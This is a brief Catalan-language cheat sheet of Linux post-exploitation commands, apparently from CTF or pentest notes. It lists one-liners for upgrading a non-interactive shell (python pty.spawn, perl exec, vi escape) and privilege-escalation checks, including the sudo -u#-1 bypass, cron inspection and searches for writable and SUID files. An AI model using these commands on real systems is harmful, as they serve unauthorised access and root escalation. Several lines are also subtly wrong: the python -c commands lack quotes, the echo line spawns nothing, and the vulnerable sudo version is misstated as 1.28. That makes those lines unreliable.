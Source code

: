 # Tips Shells Linux

### Si la shell no és interactiva

python

* `python -c import pty;pty.spawn("/bin/bash")`

python 3

* `python3 -c import pty;pty.spawn("/bin/bash")`

echo

* `echo 'os.system('/bin/bash')'`

sh

* `/bin/sh -i`

bash

* `/bin/bash -i`

Perl

* `perl -e 'exec "/bin/sh";'`

From within VI

* `:!bash`


<br>

### Métodes d'escalada senzills

* Comprovem quins binaris o scripts podem executar com sudo sense contrasenya:

  `sudo -l`

* Comprovem la versió de sudo amb `sudo -v`, si és inferior a 1.28 executem:

  `sudo -u#-1 /bin/bash`

<br>

### Comprovar treballs de cron

* `ls -lah /etc/cron*`

* `cat /var/log/syslog | grep cron`

<br>

### Comprovem arxius amb permisos write

* `find / -writable -type d 2>/dev/null`

* `find / -perm -u=s -type f 2>/dev/null`